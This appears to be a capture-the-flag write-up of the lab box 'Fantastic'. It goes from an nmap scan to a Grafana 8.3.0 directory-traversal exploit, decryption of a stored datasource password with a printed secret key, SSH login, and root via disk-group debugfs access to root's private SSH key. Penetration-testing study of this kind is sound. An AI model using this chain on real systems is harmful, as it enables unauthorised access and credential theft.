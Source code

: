 # Fantastic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.208.181                       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 16:49 +08
Warning: 192.168.208.181 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.208.181
Host is up (0.18s latency).
Not shown: 65412 closed tcp ports (conn-refused), 121 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

### Grafana LFI + Decrypt Password --> SSH Creds

Port 3000 was running Grafana:

<figure><img src="../../../.gitbook/assets/image (2327).png" alt=""><figcaption></figcaption></figure>

This particular version had an LFI exploit:

```
$ searchsploit grafana 8.3.0 
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Rea | multiple/webapps/50581.py
----------------------------------------------------------- ---------------------------------
```

I verified that it works:

<figure><img src="../../../.gitbook/assets/image (2306).png" alt=""><figcaption></figcaption></figure>

Since we don't have Grafana credentials, let's try to read it at `/etc/grafana/grafana.ini`. I found this within the configuration files:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
;admin_password = admin

# used for signing
;secret_key = SW2YcwTIb9zpOOhoPsMm

# Path to where grafana can store temp files, sessions, and the sqlite3 db (if that is used)
;data = /var/lib/grafana

# For "sqlite3" only, path relative to data_path setting
;path = grafana.db
```

We can attempt to read the Grafana database from that folder. I copied the output to a file, and checked for instances of `admin`:

<figure><img src="../../../.gitbook/assets/image (353).png" alt=""><figcaption></figcaption></figure>

I also found this within it:

{% code overflow="wrap" %}
```
{"basicAuthPassword":"anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w=="}HkdQ8Ganz
```
{% endcode %}

This was an encoded password. Googling how to decrypt this led me to another Github repository:

{% embed url="https://github.com/jas502n/Grafana-CVE-2021-43798/tree/main" %}

To abuse this, replace the secret Key and encrypted password within the script:

```
var grafanaIni_secretKey = "SW2YcwTIb9zpOOhoPsMm"
var dataSourcePassword = "anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w=="
```

Afterwards, make sure that `go` has the `golang.org/x/crypto/pbkdf2@latest` module installed. This would let us decrypt the password:

<figure><img src="../../../.gitbook/assets/image (2332).png" alt=""><figcaption></figcaption></figure>

With the password, I tested Grafana and SSH, and it worked for the `sysadmin` user:

<figure><img src="../../../.gitbook/assets/image (2313).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Disk Group --> Read SSH Key

We are part of the `disk` group, meaning we actually have full access to the file system through `debugfs`. First, let's check the different devices available:

```
sysadmin@fanatastic:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            445M     0  445M   0% /dev
tmpfs            98M  1.1M   97M   2% /run
/dev/sda2       9.8G  5.7G  3.7G  61% /
tmpfs           489M     0  489M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           489M     0  489M   0% /sys/fs/cgroup
/dev/loop0       71M   71M     0 100% /snap/lxd/21029
/dev/loop1       56M   56M     0 100% /snap/core18/2284
/dev/loop2       62M   62M     0 100% /snap/core20/1328
/dev/loop3       68M   68M     0 100% /snap/lxd/21835
/dev/loop4       56M   56M     0 100% /snap/core18/2128
/dev/loop5       33M   33M     0 100% /snap/snapd/12883
/dev/loop6       44M   44M     0 100% /snap/snapd/14549
tmpfs            98M     0   98M   0% /run/user/1001
```

`/dev/sda2` is obviously the main file system. We can then grab the `root` user's private SSH key:

<figure><img src="../../../.gitbook/assets/image (468).png" alt=""><figcaption></figcaption></figure>

Then, we can `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (2305).png" alt=""><figcaption></figcaption></figure>
